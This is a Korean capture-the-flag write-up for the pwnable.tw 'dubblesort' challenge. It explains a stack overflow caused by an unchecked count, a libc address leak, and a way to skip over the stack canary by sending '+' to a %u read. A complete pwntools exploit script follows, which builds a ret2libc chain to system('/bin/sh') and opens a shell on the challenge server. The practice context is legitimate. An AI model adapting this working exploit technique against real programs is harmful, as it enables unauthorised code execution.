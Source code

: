 ```yaml
---
layout: post
title: "[pwnable.tw] dubblesort 풀이"
date: 2018-06-28 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## dubblesort [200 pts]
### Sort the memory!
### `nc chall.pwnable.tw 10101`
### [dubblesort](https://pwnable.tw/static/chall/dubblesort)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/dubblesort/01.png)
{: refdef}

에?

{: refdef: style="text-align: center;"}
![main_01](/img/pwnable.tw/dubblesort/02.png)
![main_02](/img/pwnable.tw/dubblesort/03.png)
{: refdef}
{: refdef: style="text-align: center;"}

`max_count`를 입력받는 부분을 보면 `%u`로 받고나서 길이체크 같은게 하나도 없어요.

그래서 이 부분을 사용해 `BOF`를 일으키고 `ROP`를 써서 풀거에요.

- - -
# 0x01. 공격 방법

우선 제가 생각한 방법으로 공격하려면

- `canary` 알아내기

- memory leak

이렇게 2개가 필요해요.

`canary`를 알아내려면 아마 `read`를 사용하는 `name` 부분에서 할텐데 `0x40`으로 딱 맞아서 알아낼 수 없어요.

{: refdef: style="text-align: center;"}
![memory](/img/pwnable.tw/dubblesort/04.png)
{: refdef}

보면 `canary`는 못 알아내지만 `0xf7fb4000`라는 이상한 냄새 풀풀나는 주소는 알아낼 수 있어요.

>gdb-peda$ p system<br />
$1 = {<text variable, no debug info>} 0xf7e19200 <system>

그럼 이제 `canary`가 문젠데

어떻게는 해보려고 막 하다가 알아낸건데 `%u`에서 숫자가 아닌 문자를 넣었을 때 해당 값이 그대로인걸 알아냈어요!

신나서 페이로드 작성해서 돌려보니까 `canary`는 그대론데 그 이후로도 값이 그대로임...

그래서 다른 문자들로 넣어보다가 `+`, `-`는 그 이후의 값이 바뀌는 걸 확인했어요.

마지막으로 디버깅하다가 알아낸건데 값을 다 넣으면 `func_sort`에 의해서 넣은 값들이 정렬돼요.

그래서 저는 `canary`전에는 작은 값들을 넣고 이후엔 `canary`보단 크지만 `system`같은 함수보단 작은 값들을 넣었고 `system`이 끝나고 리턴 주소는 그냥 `system`이랑 똑같이 넣었어요.

- - -
# 0x02. 익스프로잇

로컬 서버로 테스트할 땐 `process`가 안돼서 `32bit ubuntu`에서 돌렸어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "192.168.0.23"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10101

s = remote(HOST, PORT)

elf = ELF("./dubblesort")
libc = ELF("./libc_32.so.6")
pause()

system_off = libc.symbols["system"]
binsh_off = list(libc.search("/bin/sh"))[0]

s.sendafter("name :", "A"*25)
s.recvuntil("A"*25)
save = u32("\x00" + s.recv(3))

libc_base = save - 0x1b0000
system_addr = libc_base + system_off
binsh_addr = libc_base + binsh_off

print "[*] libc_base : " + hex(libc_base)
print "[*] system_addr : " + hex(system_addr)
print "[*] binsh_addr : " + hex(binsh_addr)

s.sendafter("sort :", "35\n")

for i in range(31):
  if(i < 23):
    s.recv()
    print str(i) + " is " + str(i)
    s.sendline(str(i))

  if(i == 23):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

  if(i == 24):
    s.recv()
    print "canary"
    s.sendline("+")
  
  if(i > 24):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

s.recv()
s.sendline("1") # ebp

s.recv()
s.sendline(str(system_addr)) # ret

s.recv()
s.sendline(str(system_addr)) # ret + 4

s.recv()
s.sendline(str(binsh_addr)) # ret + 8

sleep(2)
s.recv()

s.interactive()
```

